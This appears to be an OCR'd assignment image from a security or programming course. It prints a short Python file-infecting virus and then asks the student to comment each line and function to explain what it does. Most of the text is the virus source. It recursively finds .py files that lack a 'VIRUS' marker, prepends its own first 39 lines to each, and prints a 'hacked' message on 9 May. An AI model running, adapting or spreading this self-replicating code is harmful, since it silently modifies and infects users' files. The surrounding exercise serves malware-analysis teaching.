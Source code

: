 #!/usr/bin/python
import os
import datetime

SIGNATURE = "VIRUS"

def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
    return files_targeted

def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
    virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
        print "You have been hacked"

files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
Perform an analysis of the Python-based code.

Insert comments into each line of the script explaining in your own words what the virus is doing on this line.
Insert comments above each function explaining what the purpose of this function is and what it hopes to carry out.
Insert comments above the final three lines explaining how the functions are called and what this script appears to do.
